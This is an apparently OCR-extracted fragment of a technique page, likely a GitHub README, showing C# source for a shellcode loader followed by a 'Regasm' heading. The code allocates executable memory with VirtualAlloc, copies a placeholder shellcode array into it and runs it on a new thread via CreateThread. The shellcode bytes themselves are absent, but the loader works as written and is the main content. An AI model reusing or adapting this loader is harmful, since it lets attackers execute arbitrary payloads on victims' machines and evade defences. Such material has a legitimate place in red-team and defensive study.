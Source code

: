 ```csharp
}
}
public class Shellcode
{
public static void Exec()
{
byte[] shellcode = new byte[510] {
 SHELLCODE
};
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode .Length,
MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode , 0, (IntPtr)(funcAddr), shellcode .Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern bool VirtualFree(IntPtr lpAddress,
UInt32 dwSize, UInt32 dwFreeType);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(
UInt32 lpThreadAttributes,
UInt32 dwStackSize,
UInt32 lpStartAddress,
IntPtr param,
UInt32 dwCreationFlags,
ref UInt32 lpThreadId
);
[DllImport("kernel32")]
private static extern bool CloseHandle(IntPtr handle);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(
IntPtr hHandle,
UInt32 dwMilliseconds
);
[DllImport("kernel32")]
private static extern IntPtr GetModuleHandle(
string moduleName
);
[DllImport("kernel32")]
private static extern UInt32 GetProcAddress(
IntPtr hModule,
string procName
);
[DllImport("kernel32")]
private static extern UInt32 LoadLibrary(
string lpFileName
);
[DllImport("kernel32")]
private static extern UInt32 GetLastError();
}

```
 #### Regasm